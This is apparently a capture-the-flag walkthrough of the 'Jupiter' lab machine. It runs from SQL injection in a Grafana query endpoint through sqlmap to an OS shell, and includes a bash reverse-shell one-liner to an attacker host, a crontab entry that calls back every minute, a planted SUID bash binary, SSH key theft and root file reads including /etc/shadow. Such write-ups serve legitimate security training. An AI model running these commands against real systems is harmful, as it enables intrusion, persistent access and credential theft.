Only two ports open.  Ignore SSH.


Add the following entry to `/etc/hosts`

```
10.10.11.216    jupiter.htb
```


Some quick manual enumeration identifies some useful extensions

* `.html`
* `.jpg|svg|gif`


This looks like a static site. Attempts to enumerate endpoints failed with FerOxBuster and GoBuster.




`curl` can reach it, oddly enough






Capture this sequence of requests in Burpsuite.

>[!tip]
>Use the "passive capture" HTTP History feature on the Proxy tab in Burpsuite to capture the entire sequence.




Confirming the parameter is injectible:


## Foothold

Database dumping confirms the back-end database as a PostgreSQL database, but there isn't much of value to be found.  We learn about a Grafana user, but that leads nowhere productive I've found.  There's a massive table that takes forever to dump, but you can ignore it.


Use BurpSuite to save the injectible request - this can be used with `sqlmap` in order to simplify back-end database enumeration.  You can use any filename - we chose `kiosk.req`.

```
POST /api/ds/query HTTP/1.1
Host: kiosk.jupiter.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://kiosk.jupiter.htb/d/jMgFGfA4z/moons?orgId=1&refresh=1d
content-type: application/json
x-dashboard-uid: jMgFGfA4z
x-datasource-uid: YItSLg-Vz
x-grafana-org-id: 1
x-panel-id: 18
x-plugin-id: postgres
Origin: http://kiosk.jupiter.htb
Content-Length: 391
Connection: close
Cookie: redirect_to=%2Fd%2FjMgFGfA4z%2Fmoons%3ForgId%3D1%26refresh%3D1d

{"queries":[{"refId":"A","datasource":{"type":"postgres","uid":"YItSLg-Vz"},"rawSql":"select \n  count(parent) \nfrom \n  moons \nwhere \n  parent = 'Neptune';","format":"table","datasourceId":1,"intervalMs":60000,"maxDataPoints":940}],"range":{"from":"2023-06-16T12:18:36.424Z","to":"2023-06-16T18:18:36.424Z","raw":{"from":"now-6h","to":"now"}},"from":"1686917916424","to":"1686939516424"}
```

Confirm that the request is usable.

```bash
sqlmap -r kiosk.req # change filename as needed
```



#### Testing for vulnerability to `--os-shell`
`sqlmap --help`: 


So far, we've confirmed that the captured injectible request is usable by `sqlmap`. Use the command below to gain an `--os-shell` on the target:

```bash
sqlmap -r kiosk.req --os-shell
```

The output from this shell is really cluttered, so it's not shown here.  Do some poking around to confirm these things:

* cwd of `--os-shell` is `/var/lib/postgresql/14/main`
* it is not possible to change directories, but you can read other directories and files
* you can use this shell to reach back to the attacker machine





The two images above confirm that we can 
1. use `wget` to transfer files from the attacker machine to the target, and
2. write to `/var/lib/postgresql/14/main`

#### reverse shell
Set up a listener on the attacker and use your favorite reverse shell to connect back.  Shown here is a variant of the bash one-liner.

```bash
os-shell> bash -c 'bash -i >& /dev/tcp/<attacker ip>/<port> 0>&1'
```


### Further enumeration
While we have a shell, do some light enumeration.  Look for other users on the box, other services, and SUID binaries.

```bash
 ss -ltp # show listening TCP ports and associated processes
 
 grep sh$ /etc/password # show all users with shell access on box
 
 find / -perm -4000 -type f -ls 2>/dev/null # list all SUID binaries

```


We'll check these out later.


#### SUID binaries

There's not much that can be done with the SUID binaries.  Attempts to abuse `sudo` fail.


>[!note]
>As other HTB users work through this machine, you may find they have left behind artifacts which can be exploited to gain user(s).  If the Spirit moves you, be my guest

#### Persistent foothold

The best success I had with a persistent foothold was by creating a crontab entry for the `postgres` user.

In the reverse shell on the attacker:
```bash
[EDITOR=vim] crontab -e
```

The `[EDITOR=vim]` is optional - if you include this (without the square brackets), it forces `crontab` to use `vim` as the editor, otherwise it uses the default editor, which is typically `nano`.  Dealer's choice. See note at end of section.

Add this line to the bottom of the crontab.
```crontab
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker>/<port> 0>&1'
```

This entry sends a reverse shell to the attacker IP every minute.

I had varying success with attempting to create and transfer SSH keys, but the crontab technique seems to be the most reliable.  The reverse shell will make your screen behave strangely, so if you use `vim`, just have faith.



>[!note]
>When reading command documentation, something enclosed in square brackets means one of two things:
>1. optional parameters/flags that can be passed to a command
>2. a choice of options, with the default choice (usually) capitalized, e.g. \[Y/n/a\].  Typically, pressing \<enter\> will accept the default choice

## Pivot to User

We know from examining `/etc/passwd` that there are four total users on the box with shell access.  We know who the `postgres` and `root` users are.  Let's investigate `juno` and `jovian`.

Each user has a directory in the `/home` folder, but the `postgres` user has insufficient privileges to do anything about it.




Interesting.  Within the file `network-simulation.yml`, there are commands to binaries.  Let's see if any programs are running that call this file.



It appears that `juno` is running a command that uses this file.


Can we abuse this?


Using `pspy` (or some equivalent bash-foo), we see that periodically `juno` is calling a script, which reads `/dev/shm/network-simulation.yml`, which in turn invokes the Python Simple HTTP server.  

>[!important]
>Not shown in the output above are the commands which 'reset' the `/dev/shm` directory.  This periodically overwrites `/dev/shm/network-simulation.yml` with a template copy from `/home/juno`. However, it does not touch any files you may have placed in `/dev/shm`.

Testing with `curl`, `bash`, and `nc`, we can't reach back to the attacker.  Maybe we can do something on the system.



We can write to `/tmp` as `juno`.  Let's create a `bash` SUID binary

>[!note]
>The script that runs this playbook runs approximately every two minutes, meaning you will need to wait each time you edit your exploit.

#### create SUID bash binary



#### shell as `juno`
Use the `chmod` command to set the SUID permission on the `bash` binary just copied.

```bash
chmod u+s /tmp/bash
```


Invoke the `bash` binary as `juno` by calling
```bash
/tmp/bash -p
```

#### create SSH keys with privileged shell
Now we have a privileged shell as "juno".  If we attempt a reverse shell from here, we'll get one as `postgres`, not `juno`.  This is because the privileged shell sets the "elevated privilege UID", or EUID to the owner's, and not all commands make use of the EUID.

For example, with this shell we still can't read `user.txt`.


But we can generate an ssh key pair.


Make sure to save the new keys in the correct place: `/home/juno/.ssh/id_rsa`.  Additionally, make sure to add the entire public key to a single line in `/home/juno/.ssh/authorized_keys`

Transfer the private key to the attacker.


Access the target.  On the attacker:

```bash
chmod 600 juno.key
ssh -i juno.key juno@jupiter.htb
```


### Jovian


Recall [those other HTTP servers](#more%20ports) we found earlier.

The syntax for port forwarding is (from attacker)
```bash
ssh -i juno.key \
    -L <attacker port>:localhost:<target port> \
    juno@jupiter.htb
```

After the connection and port forwarding are established, access the ports from the attacker in a browser at `http://localhost:<attacker port>`


A Jupyter notebook instance, asking for a token. Let's go find one.


I tested two tokens: one from the file with the most recent date, and one from a randomly chosen file.  Each of the selected tokens worked, so I suspect it doesn't matter which token you choose.

Supplying a token to the login page takes you to a file where you can create a new Notebook.



Create a new notebook, and do some testing.

We have command execution as Jovian.

Let's see if we can get a reverse shell:




Success!

If this isn't cooperating, you could also adapt the process of [creating an SUID binary](#create%20SUID%20bash%20binary)  [and SSH key](#create%20SSH%20keys%20with%20privileged%20shell) to the Jupyter notebook process.


Since we're trying to get to root, look for any files on the system named `config.json` which are also owned by root.

Bingo!  Can we exploit this?  It's looking for the file `/tmp/config.json`. Let's copy what we've found there and see what happens when we run `jovian`'s copy.
#### running sattrack as `jovian`


When supplied with the file `/tmp/config.json`, the `sattrack` binary creates the `/tmp/tle` directory and writes to it.  It looks like it's trying to fetch satellite data from a few different sources.  Maybe we can get local files.



Looks like we have LFI as root - `/etc/passwd` was successfully copied to `/tmp/tle` with root as the owner.
## root flag

We can abuse this LFI to get the root flag.


## did we root tho

We managed to capture the root flag, but I still haven't managed to get a root shell.

Since we have root read access, we can grab `/etc/shadow` and attempt to crack those hashes, but they're encrypted with `yescrypt` which isn't yet supported very well with the common hash cracking tools.

I may continue to poke around on this box to see if there's a path to root.